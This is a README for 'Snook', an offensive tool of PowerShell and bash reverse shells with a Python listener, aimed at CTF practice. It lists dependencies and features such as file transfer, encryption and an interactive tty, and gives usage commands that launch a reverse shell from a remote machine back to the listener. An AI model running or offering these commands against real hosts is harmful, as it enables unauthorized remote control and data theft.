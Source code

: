 # Snook

Enhanced PowerShell/bash reverse shell with python listener. This work was inspired by [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and [Nishang's PowerShell reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
This is a cool tool for CTF boxes as the reverse shells are coded in a scripting language that will surely be available on the boxes, therefore they won't be dependency problems.
Feel free to suggest or implement new builtin commands!

## Dependencies

The python listener needs:

- alive-progress
- colorama
- cryptography

They all can be installed with pip.

The Powershell reverse shell has only been tested on PowerShell 5.1.
The bash reverse shell has only been tested on bash 5.0.16

## Features

- Execute commands
- Download a file from the remote host
- Upload a file to the remote host
- Communication encryption
- Fully interactive mode (only available on the bash reverse shell at the moment)

## Usage

On your machine, set up the listener:

`python3 snook_listener.py -H <IP> -p <PORT>`

Then run the reverse shell on the remote machine:

`. .\snook.ps1 ; Invoke-Snook <IP> <PORT>` (on Windows)

or

`./snook.sh <IP> <PORT>` (on Linux)

Then on the listener, type whatever command you want. Any command that is not a listener's builtin command will be interpreted as a Powershell/Bash command.

Here is a list of the special builtin commands available on the listener:

### Download

You can download a file from the remote host by typing `download -d <local_destination> <remote_file>`.
Cool tip: there is autocompletion on the local destination parameter.

### Upload

You can upload a file on the remote host by typing `upload -d <remote_destination> <local_file>`.
Cool tip: there is autocompletion on the local file parameter.

### Interactive (only on the Bash reverse shell for the moment)

Juste type `interactive` and you get a fully interactive tty shell, really useful if you need to run commands like sudo.

## TODO

- Better handling of encryption setup errors
- Implement fully interactive mode for the PS reverse shell
- Implement download/upload of directories
- Add new cool features
- Check if the Powershell reverse shell is compatible with other PS versions
- Check if the bash reverse shell is compatible with other bash versions
